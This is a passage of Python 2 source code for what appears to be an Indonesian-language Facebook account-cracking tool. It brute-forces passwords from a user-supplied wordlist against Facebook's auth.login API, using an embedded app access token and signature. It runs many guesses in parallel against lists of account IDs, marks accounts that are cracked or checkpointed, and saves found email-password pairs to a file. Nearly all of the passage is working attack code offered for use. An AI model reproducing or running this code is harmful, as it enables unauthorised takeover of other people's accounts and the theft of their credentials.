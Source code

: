                                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass4
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass4
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'
    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
    super()


def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        try:
            email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail\x1b[1;97m/\x1b[1;92mHp \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')
            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print 40 * '\x1b[1;97m\xe2\x95\x90'
            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email
            print '\x1b[1;91m[+] \x1b[1;92mJumlah\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mMencoba \x1b[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                        print 40 * '\x1b[1;97m\xe2\x95\x90'
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                        keluar()
                    else: